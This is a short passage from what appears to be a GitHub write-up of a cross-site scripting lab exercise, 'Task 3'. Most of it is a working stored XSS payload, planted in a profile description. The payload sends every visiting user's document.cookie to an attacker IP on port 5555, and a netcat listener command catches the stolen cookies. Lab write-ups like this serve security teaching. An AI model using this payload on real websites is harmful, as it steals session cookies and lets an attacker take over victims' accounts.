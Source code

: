 ![alt text](https://github.com/RubiaQayoum/Cross-Site-Scripting-Attack/blob/main/cookie_succ_alice.png)

#Task 3

Edit the ```Brief description``` as:

	<script>
	  document.write(
	    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
	  );
	</script>

It will send an HTTP GET request to the port 5555 on the attacker with document.cookie whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

	nc -l 5555 -v
